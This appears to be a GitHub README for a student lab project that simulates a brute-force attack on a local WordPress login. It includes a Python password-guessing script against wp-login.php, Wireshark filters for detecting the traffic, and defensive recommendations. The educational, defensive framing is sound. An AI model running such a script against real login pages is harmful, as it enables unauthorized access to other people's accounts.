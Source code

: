# Brute Force Attack Simulation and Analysis on WordPress

## 📌 Project Overview
This project demonstrates a brute force attack simulation on a locally hosted WordPress site. The objective was to understand the mechanics of brute force attacks, test security measures, and analyze the attack patterns using Wireshark.

## 🚀 Project Goals
- Simulate a brute force attack using Python.  
- Analyze the attack patterns using Wireshark.  
- Test the effectiveness of the **Limit Login Attempts Reloaded** plugin.  
- Document the findings and suggest improvements.  

## 🛠️ Tools and Environment
| Tool | Purpose |
|------|---------|
| XAMPP | Local server environment (Apache, MySQL, PHP) |
| WordPress | Content Management System (CMS) |
| MySQL | Database backend for WordPress |
| Terminal | Command-line interface for configuration |
| Limit Login Attempts Reloaded | Security plugin for brute force mitigation |
| Wireshark | Network packet analysis tool |

## 🔧 Setup and Configuration
1. **Install XAMPP**  
   - Download and install from the official [XAMPP website](https://www.apachefriends.org/index.html).

2. **Set Up WordPress**  
   - Download WordPress and place it in the `htdocs` directory in the XAMPP folder.

3. **Create a MySQL Database**  
   - Create a database named `wordpress` using phpMyAdmin.

4. **Configure wp-config.php**  
   - Update database settings:
```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'password123!');
define('DB_HOST', '127.0.0.1:3306');
```

## Install Security Plugin
- Install Limit Login Attempts Reloaded from the WordPress dashboard.

## Grant Permissions
- Ensure proper permissions using the following command:
terminal 
```sudo chown -R ayo:staff /path/to/wordpress```


## 🧪 Brute Force Attack Execution

Python script used to automate login attempts:
``` import requests
from itertools import product
import string
import time

url = 'http://localhost/testsite/wp-login.php'
username = 'admin'
passwords = [''.join(x) for x in product(string.ascii_lowercase, repeat=2)]

for password in passwords:
    data = {
        'log': username,
        'pwd': password,
        'wp-submit': 'Log In',
        'redirect_to': 'http://localhost/testsite/wp-admin',
        'testcookie': '1'
    }
    response = requests.post(url, data=data)
    if 'dashboard' in response.text:
        print(f"[+] Success! Password found: {password}")
        break
    time.sleep(0.5)
```
-The script attempted multiple combinations until the correct password was found.

## 📊 Log Analysis Using Wireshark

- Open Wireshark and start capturing traffic.
Apply the following filter to isolate login attempts:

http.request.uri contains "wp-login.php"
http.host == "localhost"
ip.addr == 127.0.0.1
http.request.method == "POST"

Key findings:
- Number of login attempts: 50+
- Most common response code: 403 (Blocked)
- Source IP: 127.0.0.1
- User-Agent: python-requests/2.31.0

## ✅ Challenges and Resolutions

|Challenge|	Cause|Resolution|
|---------|------|----------|
| Error establishing database connection	|Incorrect DB_HOST value |	Corrected to 127.0.0.1:3306 |
| ModuleNotFoundError: No module named 'requests'|	Missing Python module |	Installed using pip install requests |
| chown: illegal group name |	Incorrect syntax |	Fixed using sudo chown -R ayo:staff |
| MySQL Error 1046 |	No database selected |	Used USE wordpress; |
| FTP credentials prompt |	Incorrect file permissions |	Defined FS_METHOD as 'direct' in wp-config.php |

## 🏆 Recommendations

- Enforce strong password policies (12+ characters, symbols).
- Implement Two-Factor Authentication (2FA) for added security.
- Use a Web Application Firewall (WAF) to block malicious traffic.
- Regularly monitor login attempts using SIEM tools like Microsoft Sentinel.
- Limit the number of allowed login attempts before blocking.

## 🔍 Lessons Learned

- Hands-on experience with configuring WordPress and MySQL.
- Understanding the mechanics of brute force attacks.
- Effective use of Python for penetration testing.
- Importance of rate limiting and monitoring in preventing automated attacks.
- Analyzing network traffic using Wireshark to detect anomalies.


🚨 Disclaimer

⚠️ This project was conducted in a controlled lab environment. Performing brute force attacks on unauthorized systems is illegal and punishable under law.


